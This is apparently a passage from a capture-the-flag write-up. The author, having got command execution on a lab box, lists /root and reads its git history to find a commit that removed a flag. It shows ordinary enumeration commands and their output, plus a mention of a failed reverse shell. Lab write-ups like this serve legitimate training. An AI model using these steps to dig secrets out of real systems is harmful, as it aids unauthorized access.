 I am just writing the commands I ran. 

I tried getting reverse shell, but could not so I enumerated the box manually. In the /root directory found that it is a git repository.

```bash
ls -la /root
```

```bash
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               sh: 1: cannot open fdasfa: No such file
total 28
drwx------ 1 root root 4096 Jan  7 16:48 .
drwxr-xr-x 1 root root 4096 Jan  7 22:14 ..
lrwxrwxrwx 1 root root    9 Jan  6 20:51 .bash_history -> /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 1 root root 4096 Jan  7 16:48 .git
-rw-r--r-- 1 root root   53 Jan  6 20:51 .gitconfig
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-rw-r-- 1 root root  201 Jan  7 16:46 dev-note.txt
```

### Git Lo

Since we were not in the directory where there was the git repo so used —git-dir 

```bash
git --git-dir /root/.git log
```

```bash
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               sh: 1: cannot open fdasfa: No such file
commit 5242825dfd6b96819f65d17a1c31a99fea4ffb6a
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```
